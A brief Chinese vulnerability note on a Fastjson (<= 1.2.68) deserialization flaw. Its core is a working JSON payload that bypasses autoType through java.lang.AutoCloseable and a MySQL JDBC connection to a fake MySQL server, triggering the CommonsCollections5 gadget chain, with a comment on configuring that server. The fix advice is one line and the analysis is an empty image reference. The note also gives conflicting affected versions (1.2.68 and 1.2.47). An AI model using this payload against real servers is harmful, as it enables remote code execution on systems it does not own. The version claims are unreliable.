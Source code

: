 ### 一 漏洞描述
fastjson是一款用Java语言编写的高性能功能完善的JSON库。由于其独特的算法，fastjson的parse速度极快，超越了所有json库，包括曾经号称最快的jackson以及Google的二进制协议protocol buf。fastjson还是官方收录的参考实现之一，完全支持http://json.org的标准。除此之外，fastjson还支持各种JDK类型包括JavaBean，Map,Enum,泛型等，而且不需要额外的jar，能够直接跑在JDK上。Fastjson支持JDK 5， JDK 6，Android,阿里云手机等环境。

fastjson <= 1.2.68

攻击者仍然可以通过发送精心制造的请求包，使用mappings绕过autoType选项，在使用Fastjson的服务器上远程执行代码。  
该问题影响Fastjson 1.2.47以及之前的版本，而且无需开启Autotype选项。
但开启safeMode则无法利用。

### 二 漏洞利用
```
{
    "@type":"java.lang.AutoCloseable",
    "@type": "com.mysql.jdbc.JDBC4Connection",
    "hostToConnectTo": "127.0.0.1",
    "portToConnectTo": 3306,
    "info":
    {
        "user": "CommonsCollections5", // 利用链，自己在MySQL_Fake_Server的conf里面改，具体看他的readme
        "password": "pass",
        "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
        "autoDeserialize": "true",
        "NUM_HOSTS": "1"
    },
    "databaseToConnectTo": "dbname",
    "url": ""
}
```

### 三 漏洞修复
升级并开启safeMode或不用fastjson

### 四 漏洞分析
![img.png](img.png)

> 参考链接
> payload: https://blog.gm7.org/%E4%B8%AA%E4%BA%BA%E7%9F%A5%E8%AF%86%E5%BA%93/02.%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/01.Java%E5%AE%89%E5%85%A8/2.%E5%90%84%E7%A7%8D%E5%88%86%E6%9E%90/07.Fastjson1.2.68%E5%88%86%E6%9E%90.html
> https://www.cnblogs.com/huim/p/16566911.html
